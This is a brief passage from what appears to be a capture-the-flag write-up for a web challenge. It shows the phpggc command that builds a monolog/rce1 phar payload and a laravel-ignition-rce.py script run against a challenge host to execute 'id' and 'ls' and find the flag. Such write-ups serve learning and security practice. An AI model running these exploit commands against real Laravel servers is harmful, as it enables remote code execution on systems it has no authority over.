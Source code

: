 ![](./assets/web/Daas-id.png)

we can change the command used in the payload
* php -d'phar.readonly=0' ../phpggc/./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system '**id**'
* pyhon3 laravel-ignition-rce.py http://139.59.174.238:30253/ /tmp/exploit.phar

Changing the command to ls lists the directories 
![](./assets/web/Daas-ls.png)

Traversing around, the flag is at ../../